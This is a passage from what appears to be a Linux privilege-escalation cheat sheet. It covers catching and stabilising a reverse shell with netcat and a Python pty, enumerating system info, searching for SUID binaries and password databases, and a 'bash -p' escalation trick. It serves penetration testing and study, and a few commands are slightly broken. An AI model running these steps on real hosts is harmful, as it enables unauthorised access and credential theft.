     - [Weak File Permissions / Passwd Writabble \[PrivEsc\]](#weak-file-permissions--passwd-writabble-privesc)
    - [NFS Root Squashing](#nfs-root-squashing)
    - [sudo \< v1.28 - @sickrov \[PrivEsc\]](#sudo--v128---sickrov-privesc)
    - [Docker Breakout \[PrivEsc\]](#docker-breakout-privesc)
    - [Linux Enumeration Tools \[PrivEsc\]](#linux-enumeration-tools-privesc)

## Stabilize Shell  

- Listen to reverse shell:

```bash
rlwrap nc -lvnp 443
```

- Upgrade the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

## Copy tools to the target

*See file transfer*

## Enumerate

### System Info

- System specific info

```sh
cat /etc/issue 
cat /etc/os-release
cat /proc/version 
uname -a
arch
id
```

- Environment variables:

```sh
cat /etc/profile
cat /etc/bashrc
printenv
env
```

### Permissions

` Suspicious files
```bash
# Files with SUID bit
find / -perm -u=s -type f 2>/dev/null
# Directories with writable permissions
find /var -writeable -type d 2>/dev/null
# Look for useful files
find / -type f -name -o -name "*.txt" -o -name "*.kdbx" -o -name "*.zip" 2>/dev/null
# Files that may give you have +x
find /home/<user> -exec "/usr/bin/bash" -p \;
# Manually Enumerating Capabilities
/usr/sbin/getcap -r / 2>/dev/null
# List commands that user can run as sudo  - >  GTFObins
sudo -l
```
